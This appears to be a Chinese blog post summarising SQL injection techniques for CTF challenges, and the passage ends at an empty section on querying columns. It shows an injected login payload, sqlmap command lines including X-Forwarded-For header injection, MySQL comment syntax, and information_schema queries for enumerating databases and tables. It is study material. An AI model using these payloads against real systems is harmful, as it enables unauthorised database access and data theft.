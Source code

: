 ```yaml
---
title: CTF 中的 SQL 注入总结
layout: post
category: [CTF]
tagline: 
show_reward: true
tags: [SQL注入, CTF]
---
```



## flag 常见表

```
select flag from flag
```

## SQL 注入的基本原理

```
select * from user where username='' and pass=''
# 构造 username=devnull' or '1后，sql 语句变成
select * from user where username='devnull' or '1' and pass=''
```

## SQLMap

```
python sqlmap.py -u "http://192.168.1.2/get_info.php?title=xxx&order=id" --current-db --batch --flush --tables
```

自定义的注入位置，用 * 号表示，如 header 的x-forwarded-for 注入

```
python sqlmap.py -u "http://192.168.118.142/" --headers="X-Forwarded-For: *" --banner
```

## MySQL中的注释符

- `#` 注释从#字符到行尾
- `--` 注释从--序列到行尾，后面需要跟上一个或多个空格，tab也可以
- `/* */` 注释中间的字符


## 获取元数据

```sql
# 获取当前的数据库用户，数据库名称，数据库的版本信息
select user(),database(),version() from dual;
# 查询数据库，有时需要限制返回的数量，或者偏移，例如页面只显示一条数据的情况 limit 0,1 limit 1,2
# 需要通过偏移来返回所有的数据库
select schema_name from information_schema.schemata;
# group_concat 函数是将多行数据连接成一行
select group_concat(schema_name) from information_schema.schemata;
# 查询表
# 方法1
select group_concat(table_name) from information_schema.tables where table_schema=database();  
# 方法2
select table_name from information_schema.tables where table_schema='database_name';
# 方法3
select table_name from information_schema.tables where table_schema=(select database());

# 查询列
```